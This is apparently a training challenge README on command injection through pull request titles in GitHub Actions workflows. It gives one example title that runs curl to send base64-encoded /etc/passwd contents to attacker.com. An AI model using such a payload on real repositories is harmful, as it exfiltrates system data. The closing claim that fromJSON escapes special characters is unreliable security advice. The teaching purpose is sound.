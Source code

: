 # Challenge 2: Command Injection from Pull Request Title

This challenge demonstrates a command injection vulnerability that can occur when using the pull request title directly in a `run` step.

## Vulnerability

The `vulnerable.yml` workflow is triggered when a new pull request is opened. The `run` step in the `vulnerable_job` directly uses the pull request title in a shell command. An attacker can create a pull request with a malicious title that includes shell commands. For example, an attacker could create a pull request with the title:

```
; curl http://attacker.com/$(cat /etc/passwd | base64)
```

When the workflow runs, the shell will execute the `curl` command, sending the base64-encoded contents of the `/etc/passwd` file to the attacker's server.

## Fix

The `fixed.yml` workflow mitigates this vulnerability by passing the pull request title as an environment variable to the script. This ensures that the pull request title is treated as a single string and not executed as a command.

## Advanced Mitigation

In addition to using environment variables, you can also use the `fromJSON` function to parse the pull request title and escape any special characters. This can provide an extra layer of protection against command injection attacks.
